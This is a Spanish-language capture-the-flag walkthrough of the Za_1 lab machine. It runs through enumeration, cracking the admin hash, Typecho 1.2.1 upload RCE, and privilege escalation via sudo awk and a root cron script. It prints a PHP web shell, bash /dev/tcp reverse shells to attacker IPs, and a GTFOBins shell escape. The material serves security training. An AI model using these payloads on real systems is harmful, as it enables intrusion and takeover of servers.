```php 
##########################################################################################################
#
# CTF a la Máquina Za_1
#
# DATE: 25/Agosto/2023
#
# Buscar usuario  [ flag{} ] y root [ flag{} ]
#
#########################################################################################################
```
# Footprinting

```bash 
IP_atacante -> $ifconfig -> 192.168.0.79
IP_objetivo -> $sudo arp-scan -I enp0s3 192.168.0.0/24 -> 192.168.0.92
```

# Escaneo y Enumeración

* Veo que puertos tiene abiertos

```php 
nmap -sVC -T5 -n -p- 192.168.0.92
```
* Obtengo los siguientes puertos abiertos, 22 SSH, 80 HTTP

```php 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 36325b78d0f43c9f051aa713913e38c1 (RSA)
|   256 7207821526ce1334e842cfdadee2a714 (ECDSA)
|_  256 fc9c664686601a2932c61fecb247b874 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: Typecho 1.2.1
|_http-title: Zacarx's blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración

* Aquí tengo algo que me llama la atención y que luego veré detenidadmente **Typecho 1.2.1**
  
* Realizo búsqueda de directorios y ficheros

```php
gobuster dir -u "http://192.168.0.92/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -t 200 --no-error
```

* Obtengo

```php
===============================================================
2023/08/25 16:44:38 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 312] [--> http://192.168.0.92/admin/]
/install              (Status: 301) [Size: 314] [--> http://192.168.0.92/install/]
/install.php          (Status: 302) [Size: 0] [--> http://192.168.0.92/]          
/index.php            (Status: 200) [Size: 6806]                                  
/sql                  (Status: 301) [Size: 310] [--> http://192.168.0.92/sql/]    
/LICENSE.txt          (Status: 200) [Size: 14974]                                 
/var                  (Status: 301) [Size: 310] [--> http://192.168.0.92/var/]    
/usr                  (Status: 301) [Size: 310] [--> http://192.168.0.92/usr/]
```
* He intentado, viendo que algún enlace apuntaba a un nombre `za1.hmv`, ponerlo en `/etc/hosts`. Cambia el aspecto.

* No he obtenido resultados con una búsqueda **vhost**

```php
gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 100 -u za1.hmv
```

* Tengo un directorio de **admin** donde pide usuario y contraseña. Luego le haré un **sqlmap**

 

* Analizando entre los directorios accesibles, obtengo ficheros de Base de Datos

```php
.rw-r--r-- jl jl 100 KB Fri Aug 25 17:24:15 2023  64c0dcaf26f51.db
.rw-r--r-- jl jl 100 KB Fri Aug 25 17:26:19 2023  new.sql
.rw-r--r-- jl jl 668 B  Fri Aug 25 17:34:25 2023  req.txt
.rw-r--r-- jl jl 100 KB Fri Aug 25 17:26:22 2023  sercet.sql
```
>El fichero `req.txt` me lo he creado para el formulario de `/admin` pero **sqlmap** dice que no tiene parámetros vulnerables

* Usuarios de la base de datos, vistos con el visor [https://sqliteviewer.app/]



```php
$P$BhtuFbhEVoGBElFj8n2HXUwtq5qiMR. - zacarx - zacarx@qq.com
$P$BERw7FPX6NWOVdTHpxON5aaj8VGMFs0 - admin  - admin@11.com
```

* De entre esos dos hashes puedo crackear el de **admin** con *John*

```php
john --wordlist=/usr/share/wordlists/rockyou.txt admin.hash
❯ john --show admin.hash
?:123456
```
>Lo pruebo en el formulario de `/admin` y logro acceder




# Acceso

* Como tengo un usuario y `Typecho 1.2.1` tiene una vulnerabilidad **ver [https://github.com/m4l4c4t3/typecho-v1.2.1-RCE]**, voy a explotarla.

* Nota: La POC de esa vulnerabilidad la he rescatado del sitio original porque, al menos en la actualidad, da un **404 status** y a mi me ha servido bastante.

1. Tras hacer login con esas credenciales, pincho en **configuración** y luego en **básico**



2. Al final del formulario, activo la casilla de **otros formatos** y pongo `php.` para que pueda subir ficheros *php*



3. Luego me voy a la sección para **escribir un artículo**



4. En la parte derecha, pincho en **apéndice** (adjunto) y subo mi fichero **php**, en este caso he subido un simple phpinfo() para tener la POC



5. Cuando lo subo, me dice la URL donde hace el upload

 

6. Apunto el navegador allí y veo que funciona la POC

 

* Ahora en vez de ese fichero voy a subir una *shell* en PHP [https://www.revshells.com/]

1. Subo primero un php para que me ejecute comandos

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

2. Ya puedo ejecutar comandos, lo compruebo



3. Y ahora ejecuto la shell (me apoyo en [https://gchq.github.io/CyberChef/], para urlencoded)

```php
/bin/bash -c "bash -i >& /dev/tcp/192.168.0.79/8888 0>&1"
```



## Pivotar a otro usuario

* Revisando el sistema, tengo que existe un usuario `za_1`

* Ejecuto `sudo -l` y obtengo

```php
User www-data may run the following commands on za_1:
    (za_1) NOPASSWD: /usr/bin/awk
```
* En **GTFObins** [https://gtfobins.github.io/gtfobins/awk/#suid] tengo un modo de ganar usuario con ese comando

```php
sudo -u za_1 /usr/bin/awk 'BEGIN {system("/bin/sh")}'
$ whoami
whoami
za_1
```
* Y puedo obtener su bandera

```console
flag{}
```

# Elevación a Root

* Como tiene *SSH*, pongo en su fichero de *authorized_keys* mi clave pública y ya puedo acceder más cómodamente por *SSH*
  
* Observo que en directorio home de `za_1`, hay un directorio oculto `/.root/` y contiene un script **back.sh** editable

```php
#!/bin/bash


cp /var/www/html/usr/64c0dcaf26f51.db /var/www/html/sql/new.sql

bash -i >&/dev/tcp/10.0.2.18/999 0>&1
```

* Con **pspy** obtengo que se ejecuta periódicamente el script, por root 😋

```php
2023/08/27 11:04:01 CMD: UID=0     PID=2610   | /bin/bash /home/za_1/.root/back.sh 
2023/08/27 11:04:01 CMD: UID=0     PID=2609   | /bin/sh -c /bin/bash /home/za_1/.root/back.sh 
2023/08/27 11:04:01 CMD: UID=0     PID=2608   | /usr/sbin/CRON -f 
2023/08/27 11:04:01 CMD: UID=0     PID=2611   | cp /var/www/html/usr/64c0dcaf26f51.db /var/www/html/sql/new.sql 
```
* Voy a cambiar la IP (realmente aquí podría hacer cualquier maldad que se me ocurriera), por la de mi máquina de ataque y pongo un netcat a la escucha en el puerto 4444 y espero...

```php
root@za_1:~# whoami
whoami
root
root@za_1:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@za_1:~#
```

* Obtengo bandera

```console
flag{}
``` 

